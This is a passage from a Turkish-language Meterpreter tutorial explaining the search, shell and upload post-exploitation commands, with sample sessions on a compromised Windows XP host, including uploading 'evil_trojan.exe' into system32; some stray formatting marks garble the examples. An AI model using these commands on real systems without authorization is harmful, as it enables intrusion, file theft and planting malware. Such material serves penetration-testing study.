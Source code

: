 

## search



Karşı sistemde arama yapmamızı sağlar.


```bash
meterpreter > search -f autoexec.bat
Found 1 result...
    c:\AUTOEXEC.BAT
meterpreter > search -f sea*****.bat c:\\xamp\\
Found 1 result...
    c:\\xampp\perl\b**in**\search.bat **(**57035 bytes**)**
meterpreter >
```



## shell



`shell` komutu, Meterpreter içinde karşı sistemin Command Prompt satırına girmenizi sağlar.


```bash
meterpreter > shell
Process 39640 created.
Channel 2 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```



## upload



Karşı sisteme bir dosya yüklemenizi sağlar. Hedef sistemin dosya gösterim notasyonu dikkate alınmalıdır. Ters tırnaklara dikkat edilmelidir.


```bash
meterpreter > upload evil_trojan.exe c:\\windows\\system32
> uploading  : evil_trojan.exe -> c:\windows\system32
> uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe
meterpreter >
```



## webcam_list

